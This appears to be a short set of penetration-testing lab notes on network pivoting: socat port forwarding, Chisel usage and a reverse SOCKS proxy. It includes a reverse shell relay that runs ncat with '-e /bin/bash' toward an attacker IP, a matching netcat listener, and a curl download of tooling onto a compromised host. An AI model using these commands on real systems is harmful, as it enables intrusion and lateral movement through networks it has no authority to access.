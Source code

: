 
Port Forwarding
```
socat tcp-listen:8080,fork tcp:<remote-ip>:80
```


Reverse Shell Relay
```
 ./socat-sardarji  tcp-l:8000 tcp:10.50.106.240:4444 &
socat linux binary  machine port       attacker IP and port
```

```
./ncat_sardarji 127.0.0.1 8000 -e /bin/bash
```

Attacker machine
```
nc -lvnp 4444
```



# Chisel [Chisel](https://github.com/jpillora/chisel)

Download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal.

## Reverse SOCKS Proxy:

Attack Machine:
```
./chisel server -p LISTEN_PORT --reverse &
```

```
curl 10.50.106.240/chisel_1.9.1_linux_amd64  -o chisel-sardarji
```

```
Attacker
./chisel_1.9.1_linux_amd64 server -p 1337 --reverse & 
```


Compromised

```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

```
client 10.50.88.33:1337 R:socks &
```


Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.


